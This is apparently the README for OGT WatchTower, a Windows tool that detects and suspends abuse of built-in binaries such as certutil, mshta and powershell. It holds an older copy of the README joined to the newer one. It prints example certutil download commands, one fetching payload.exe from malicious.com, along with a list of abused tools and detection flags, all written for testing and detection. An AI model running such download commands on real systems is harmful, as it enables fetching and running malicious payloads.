

# 🛡️ OGT WatchTower v1.2 - Professional Edition

**Advanced Behavioral Protection Platform**

> "Watching What Others Miss" - Kernel-level visibility to detect and prevent Living-off-the-Land (LOLBin) attacks.

[](LICENSE)
[](https://www.microsoft.com/windows)
[

## 🚀 What's New in v1.2?

Version 1.2 represents a complete architectural overhaul, moving from a simple polling script to a **Professional Security Tool**:

-   **Core Engine**: Transitioned to **Sysmon** (Event Tracing) for real-time kernel-level visibility.
-   **Detection**: Now powered by **Sigma Rules**, the industry standard for detection logic.
-   **Intelligence**: Integrated **VirusTotal** and **AbuseIPDB** for global threat reputation.
-   **File Identity**: **YARA Integration** prevents malware from hiding by renaming files (e.g., `powershell.exe` -> `notepad.exe`).
-   **Response**: Automated **Forensics** (Memory Dumping) and **Containment** (Process Suspension).
-   **UI**: A brand new **Modern Command Center** built with CustomTkinter.

## 📑 Table of Contents

-   [Features](#-features)
-   [Installation](#-installation)
-   [Usage](#-usage)
-   [Configuration](#-configuration)
-   [Architecture](#-architecture)
-   [Screenshots](#-screenshots)

## ✨ Features

### 🔍 Advanced Detection
-   **Real-time Event Stats**: Monitors Process Creation, Network Connections, and File Events.
-   **Sigma Rule Support**: Load thousands of community rules (`.yml`) instantly.
-   **YARA Scanning**: verify binary identity on disk.

### 🛡️ Automated Response
-   **Instant Suspension**: Blocks high-risk processes immediately.
-   **Forensic Snapshots**: Captures full memory dumps (`.dmp`) and metadata *before* the process dies.

### 🌐 Threat Intelligence
-   **Cloud Sentry**: Automatically checks hashes against VirusTotal.
-   **IP Reputation**: Verifies network connections against AbuseIPDB.

## 💿 Installation

### Prerequisites
-   **Windows 10/11** (64-bit)
-   **Administrator Privileges** (Required for Sysmon/ETW)

### Step 1: Install Sysmon
Run the provided script to install and configure Sysmon:
```powershell
./src/setup/install_sysmon.ps1
```

### Step 2: Run WatchTower
Double-click `OGT WatchTower_v1.2.exe` in the `release/` folder.

## 🚀 Usage

### The Command Center
The new GUI provides a real-time view of your system's security posture:
-   **Live Feed**: Watch every process and network event scroll by.
-   **Alerts**: High-priority threats appear in red with detailed context.
-   **Dashboard**: Track total events and threat counts.

### Testing Defenses
1.  **Certutil Download**: Run `certutil -urlcache -split -f http://test.com` -> **Blocked!**
2.  **Masquerading**: Rename `cmd.exe` to `calc.exe` and run it -> **Blocked by YARA!**

## ⚙️ Configuration

Edit `src/config/settings.json` to enable features and add API keys:
```json
{
    "api_keys": {
        "virustotal": "YOUR_KEY_HERE",
        "abuseipdb": "YOUR_KEY_HERE"
    }
}
```

Add your custom detection rules to `src/config/rules/*.yml`.

## 🏗️ Architecture



## 📄 License
MIT License - Copyright © 2026 OGT (Omar Al Tamimi).

**Living-off-the-Land Protection Suite**

> Watching What Others Miss - Advanced behavioral monitoring to detect and prevent LOLBin attacks

[](LICENSE)
[](https://www.python.org/downloads/)
[](https://www.microsoft.com/windows)


## 📑 Table of Contents

- [About](#about)
- [Features](#features)
- [Screenshots](#screenshots)
- [How It Works](#how-it-works)
- [Installation](#installation)
- [Usage](#usage)
- [Configuration](#configuration)
- [Detection Patterns](#detection-patterns)
- [Architecture](#architecture)
- [Requirements](#requirements)
- [Roadmap](#roadmap)
- [Contributing](#contributing)
- [License](#license)
- [Contact](#contact)

## 🎯 About

**OGT WatchTower** is an advanced security monitoring tool designed to detect and prevent Living-off-the-Land (LOLBin) attacks. Unlike traditional antivirus solutions that focus on malicious files, OGT WatchTower monitors the **behavior** of legitimate Windows tools that attackers commonly abuse.

### The Problem

Sophisticated attackers bypass traditional security tools by using legitimate Windows binaries like:
- `certutil.exe` for downloading malicious payloads
- `powershell.exe` with encoded commands
- `mshta.exe` for executing remote scripts
- And many more...

These tools are signed by Microsoft and trusted by security software, making them invisible to conventional detection methods.

### Our Solution

OGT WatchTower uses behavioral analysis to detect when these legitimate tools are being used maliciously. By monitoring command-line arguments, execution context, and process behavior, it can identify and stop attacks in real-time.

### Developed By

**OGT** - Specializing in advanced cybersecurity solutions

## ✨ Features

### 🔍 Core Protection
- **Real-time Process Monitoring** - Continuous surveillance of system processes
- **Behavioral Analysis** - Detects suspicious patterns in command-line arguments
- **Instant Threat Response** - Automatic process suspension upon detection
- **Smart Whitelisting** - Reduce false positives with intelligent exclusions

### 📊 Monitoring Capabilities
- **8+ LOLBins Monitored**:
  - `certutil.exe` - Certificate utility abuse
  - `powershell.exe` - Encoded command detection
  - `mshta.exe` - Remote scriptlet execution
  - `wmic.exe` - Remote command execution
  - `regsvr32.exe` - Scriptlet injection
  - `rundll32.exe` - DLL abuse
  - `bitsadmin.exe` - Malicious downloads
  - `msiexec.exe` - Remote package execution
- **General App Monitoring** - Tracks Chrome, VS Code, Notepad, etc.

### 🎨 Modern Interface
- **Dark Theme UI** - Professional black, cyan, and white design
- **Live Dashboard** - Real-time statistics and threat indicators
- **Detailed Logging** - Comprehensive event history with filtering
- **Customizable Settings** - Tailor protection to your needs

### 🚀 Advanced Features
- **Threat Level Classification** - Low, Medium, High, Critical categorization
- **Export Capabilities** - Save logs in CSV/JSON formats
- **Process Details View** - In-depth analysis of suspicious activities
- **Multi-threaded Performance** - Minimal system impact (<5% CPU)

## 📸 Screenshots

### Main Dashboard

*Real-time monitoring dashboard with threat statistics and status indicators*

### Live Monitoring Panel

*Active process monitoring with threat level indicators and modern data grid*

### Settings Panel

*Customizable settings, protection toggles, and whitelist management*

## 🔧 How It Works

OGT WatchTower employs a three-layer detection and prevention system:

### 1. Process Discovery Layer
```
┌─────────────────────────────────────┐
│   Windows Process Monitoring API    │
│        (WMI + psutil)               │
└─────────────────────────────────────┘
            ↓
    Captures process creation events
```

### 2. Behavioral Analysis Layer
```
┌─────────────────────────────────────┐
│  Command Line Pattern Matching      │
│  - Encoded commands detection       │
│  - URL/IP extraction                │
│  - Suspicious parameter flags       │
└─────────────────────────────────────┘
            ↓
    Calculates Threat Score
```

### 3. Response Layer
```
┌─────────────────────────────────────┐
│   Threat Score > Threshold?         │
│   ├─ Yes → Suspend Process          │
│   │         Log Event               │
│   │         Notify User             │
│   └─ No  → Continue Monitoring      │
└─────────────────────────────────────┘
```

### Detection Example

When `certutil.exe` runs with these arguments:
```bash
certutil.exe -urlcache -split -f http://malicious.com/payload.exe
```

**OGT WatchTower detects:**
- ✅ `-urlcache` flag (network download)
- ✅ Remote URL present
- ✅ Executable file extension
- ⚠️ **Threat Level: CRITICAL**
- 🛑 **Action: Process Suspended**

## 💿 Installation

### Prerequisites

- **Operating System:** Windows 10/11 (64-bit)
- **Permissions:** Administrator privileges required
- **RAM:** Minimum 4GB

### Option 1: Install from Release (Recommended)

1. **Download** the latest release from the `release/` folder.
2. **Run** `OGT WatchTower.exe` as Administrator.
3. **Done!** The application will start monitoring.

### Option 2: Run from Source

#### Step 1: Install Dependencies
```bash
pip install -r src/requirements.txt
```

#### Step 2: Run the Application
```bash
python src/main.py
```

**Note:** You must run as Administrator for process monitoring to work.

## 🚀 Usage

### Quick Start

1. **Launch** OGT WatchTower as Administrator
2. **Enable Protection** using the toggle in the header
3. **Monitor** the Live Monitoring panel for detections
4. **Review** logs in the Logs panel

### Dashboard Overview

The dashboard displays:
- 📊 **Active Processes** - Currently monitored processes
- ⚠️ **Threats Detected** - Number of suspicious activities today
- 🛑 **Processes Suspended** - Automatically blocked threats
- ⏱️ **Uptime** - Time since protection started

### Managing Whitelist

To prevent false positives:
1. Go to **Settings** → **Whitelist**
2. Click **Add Process**
3. Browse to the executable
4. Click **Add**

## ⚙️ Configuration

### Settings File Location
The application uses `src/config/settings.json` and `src/config/lolbins.json` to store your preferences.

### Customizing Detection Patterns

Edit `src/config/lolbins.json` to modify detection rules or add new tools to monitor:
```json
{
  "name": "certutil.exe",
  "threat_indicators": [
    "-urlcache",
    "-decode",
    "-split"
  ],
  "risk_level": "high"
}
```

## 🏗️ Architecture

### System Overview
```
┌─────────────────────────────────────────────────────────┐
│                    OGT WatchTower                       │
├─────────────────────────────────────────────────────────┤
│                                                         │
│  ┌────────────┐  ┌──────────────┐  ┌────────────────┐   │
│  │    GUI     │  │ Core Engine  │  │  Protection    │   │
│  │  Layer     │◄─┤   Layer      │◄─┤    Layer       │   │
│  └────────────┘  └──────────────┘  └────────────────┘   │
│       │                 │                     │         │
│       └─────────────────┴─────────────────────┘         │
│                         │                               │
└─────────────────────────┼───────────────────────────────┘
                          │
                          ▼
              ┌───────────────────────┐
              │    Windows OS APIs    │
              │ (WMI, psutil, win32)  │
              └───────────────────────┘
```

## 🗺️ Roadmap

### Version 1.2 (Current) ✅
- [x] Real-time LOLBin monitoring
- [x] Global Process Monitoring
- [x] Modern dark theme UI
- [x] Behavioral analysis engine
- [x] Automatic process suspension
- [x] Comprehensive logging

### Version 1.5 (Planned) 🚧
- [ ] Machine learning threat detection
- [ ] Network connection monitoring
- [ ] Email notifications

## 🤝 Contributing

We welcome contributions from the community!
1. Fork the repository
2. Create your feature branch (`git checkout -b feature/amazing-feature`)
3. Commit your changes (`git commit -m "Add amazing feature"`)
4. Push to the branch
5. Open a Pull Request

## 📄 License

This project is licensed under the **MIT License** - see the [LICENSE](LICENSE) file for details.

### Third-Party Licenses

OGT WatchTower uses the following open-source libraries:
- CustomTkinter (MIT)
- psutil (BSD-3)
- pywin32 (PSF)
- WMI (MIT)

---

**Copyright © 2026 OGT (Omar Al Tamimi). All rights reserved.**

<div align="center">

**Made with ❤️ by OGT**

*Protecting systems, one process at a time*

</div>
